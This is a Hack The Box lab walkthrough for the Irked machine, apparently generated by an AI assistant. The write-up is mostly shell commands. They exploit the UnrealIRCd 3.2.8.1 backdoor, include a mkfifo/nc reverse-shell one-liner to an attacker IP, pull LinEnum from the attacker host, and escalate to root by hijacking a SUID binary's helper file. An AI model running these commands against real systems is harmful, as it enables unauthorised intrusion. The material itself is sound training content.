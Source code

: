 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

- **Initial Access**: IRC backdoor (UnrealIRCd 3.2.8.1)
- **Privilege Escalation**: SUID binary misconfiguration + steganography

---

## 🔍 Recon

### 📦 Full TCP & UDP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.117
nmap -sU -p- --min-rate 10000 -oA nmap/alludp 10.10.10.117
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,111,6697,8067,65534 -oA nmap/scripts 10.10.10.117
```

---

## 🌐 Web Enumeration

### 🖼️ Download Site Image
```bash
wget http://10.10.10.117/irked.jpg
```

---

## 💬 [IRC](IRC.md) Enumeration

### 🧰 HexChat (GUI)
Connect to:
```
irked.htb : 6697, 8067, 65534
```

### 🔍 Check UnrealIRCd Exploit
```bash
searchsploit UnrealIRCd
```

---

## 🐚 Shell as ircd (IRC Backdoor Exploit)

### 🔎 Confirm RCE
```bash
nc 10.10.10.117 6697
# In nc:
AB; ping -c 1 10.10.14.14
```

### 🧬 Reverse Shell via IRC
```bash
nc 10.10.10.117 6697
# In nc:
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
```

```bash
nc -lnvp 443
```

### 🐍 Python Exploit Alternative
```bash
./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
```

---

## 🧩 PrivEsc: ircd → djmardov

### 📁 Find Hidden File
```bash
cd /home/djmardov/Documents
cat .backup
# Output: UPupDOWNdownLRlrBAbaSSss
```

### 🔓 Extract with steghide
```bash
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
cat pass.txt
# Output: Kab6h+m+bbp2J:HG
```

### 🔐 su or SSH to djmardov
```bash
su djmardov
# or
ssh djmardov@10.10.10.117
# Password: Kab6h+m+bbp2J:HG
```

```bash
cat user.txt
```

---

## 🔼 PrivEsc: djmardov → root

### 🔍 Upload & Run LinEnum
```bash
cd /dev/shm
wget http://10.10.14.14/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -t
```

### 🔍 Suspicious Binary
```bash
ls -l /usr/bin/viewuser
# SUID root binary
```

### 📂 Hijack /tmp/listusers
```bash
echo "id" > /tmp/listusers
chmod +x /tmp/listusers
viewuser
```

```bash
echo "sh" > /tmp/listusers
viewuser
```

```bash
id
cat /root/root.txt
```

---

## 🔬 Beyond Root

### 🔍 Metasploit IRC Backdoor Behavior
```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 6697
set LHOST 10.10.14.14
set LPORT 4444
run
```

### 🧵 Process List
```bash
ps aux | grep ircd
```

---

## ❌ Alternate Exploit Paths (Did Not Work)

### 🚫 Exim Local Exploit
```bash
/usr/sbin/exim -bV -v | grep Perl
# No Perl → Not vulnerable
```

### 🚫 CVE-2018-6789 Attempt
```bash
# SSH tunnel to expose port 25
ssh djmardov@10.10.10.117 -L 25:localhost:25

# Run exploit
python exim_exp.py 10.10.14.14 443 127.0.0.1
```

---

Let me know if you’d like this merged with your HTB collection or saved as a Markdown file!